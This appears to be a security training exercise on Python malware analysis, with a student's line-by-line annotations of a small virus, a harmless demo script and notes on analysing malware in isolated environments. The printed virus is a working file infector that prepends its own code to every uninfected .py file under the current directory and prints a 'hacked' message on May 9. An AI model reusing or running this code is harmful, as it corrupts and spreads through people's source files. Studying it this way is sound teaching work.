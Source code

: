 ### Perform an analysis of the Python-based code.

Insert comments into each line of the script explaining in your own words what the virus is doing on this line.
Insert comments above each function explaining what the purpose of this function is and what it hopes to carry out.
Insert comments above the final three lines explaining how the functions are called and what this script appears to do.

#!/usr/bin/python3 *This tells the computer to use python3 to run the script*
import os *This imports the os module*
import datetime *This imports the datetime module*

SIGNATURE = "VIRUS" *This sets the variable SIGNATURE to VIRUS*

**the def locate(path): function is used to locate the path of the file**
def locate(path): *This defines the function locate*
    files_targeted = [] *This sets the variable files_targeted to an empty list*
    filelist = os.listdir(path) *This sets the variable filelist to the list of files in the path*
    for fname in filelist: *This starts a for loop that will iterate through the list of files*
        if os.path.isdir(path+"/"+fname): *This checks if the file is a directory*
            files_targeted.extend(locate(path+"/"+fname)) *This extends the list of files_targeted with the list of files in the directory*
        elif fname[-3:] == ".py": *This checks if the file is a python file*
            infected = False *This sets the variable infected to False*
            for line in open(path+"/"+fname): *This starts a for loop that will iterate through the lines in the file*
                if SIGNATURE in line: *This checks if the line contains the signature*
                    infected = True *This sets the variable infected to True*
                    break *This breaks the for loop*
            if infected == False: *This checks if the variable infected is False*
                files_targeted.append(path+"/"+fname) *This appends the file to the list of files_targeted*
    return files_targeted *This returns the list of files_targeted*

**the def infect(files_targeted): function is used to infect the files in the list of files_targeted**
def infect(files_targeted): *This defines the function infect*
    virus = open(os.path.abspath(__file__)) *This opens the file*
    virusstring = "" *This sets the variable virusstring to an empty string*
    for i,line in enumerate(virus): *This starts a for loop that will iterate through the lines in the file*
        if 0 <= i < 39: *This checks if the line is between 0 and 39*
            virusstring += line *This adds the line to the virusstring*
    virus.close *This closes the file*
    for fname in files_targeted: *This starts a for loop that will iterate through the list of files*
        f = open(fname) *This opens the file*
        temp = f.read() *This sets the variable temp to the contents of the file*
        f.close() *This closes the file*
        f = open(fname,"w") *This opens the file in write mode*
        f.write(virusstring + temp) *This writes the virusstring and the contents of the file to the file*
        f.close() *This closes the file*

**the def detonate(): function is used to detonate the virus**
def detonate(): *This defines the function detonate*
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9: *This checks if the date is May 9th*
        print("You have been hacked") *This prints the message*

**the final three lines of code are used to call the functions.  This is what actually tells the computer to activate the code**
files_targeted = locate(os.path.abspath("")) *This sets the variable files_targeted to the list of files in the current directory*
infect(files_targeted) *This calls the function infect with the list of files as the argument*
detonate() *This calls the function detonate*


# Demo

# Ops Challenge - Python Malware Analysis

## Demo Code

Analyzing malware code can be a potentially risky task, as it involves handling potentially harmful code that can infect systems. However, if you follow proper precautions and use a safe environment, you can minimize the risks.

The demo code below introduces concepts necessary to complete the challenge.


```python
#!/usr/bin/env python3

def changeme( mylist ):
   mylist.append([1,2,3,4]);
   print("Values inside the function: ", mylist)
   return

mylist = [10,20,30];
changeme( mylist );
print("Values outside the function: ", mylist)

```

Break the code into pieces. Identify each component. Use what you know. For example, you know functions must be declared before they can be called.

```python
#!/usr/bin/env python3

# Function definition is here

def changeme( mylist ):
# This changes a passed list into this function

   mylist.append([1,2,3,4]);
   print("Values inside the function: ", mylist)
   return

# The function changeme has been declared. Now you can call changeme function.

# First, the script declares a variable called "mylist" as [10,20,30]
mylist = [10,20,30];

# The function changeme is called with the parameter "mylist" inserted.
changeme( mylist );

# Prints a string then the contents of "mylist" variable
print("Values outside the function: ", mylist)
```

By translating the code line by line and using the concepts we know, we can gradually interpret the meaning of code written by another person.


## Notes

Here are some recommended steps to analyze malware code safely:

1. Isolate the Environment
    - Create a controlled and isolated environment to analyze the malware. Use a dedicated VM or an offline system that is not connected to your network or critical infrastructure. This prevents the malware from spreading or causing damage beyond the isolated environment.
2. Analyze Indicators of Compromise (IOCs)
    - Identify any potential indicators of compromise, such as file names, registry entries, or network connections associated with the malware. Analyze these IOCs to understand the impact and potential mitigation strategies.
3. Use a Debugger
    - A debugger is a useful tool that allows you to pause the execution of the code in order to inspect it's behavior. However, exercise caution when using these tools, as some malware may be designed to detect and evade analysis.
4. Analyze in a Controlled Network
    - If network behavior analysis is required, connect the virtual machine to an isolated network environment, such as a separate subnet or virtual network. Monitor the network traffic and interactions of the malware within this controlled environment.
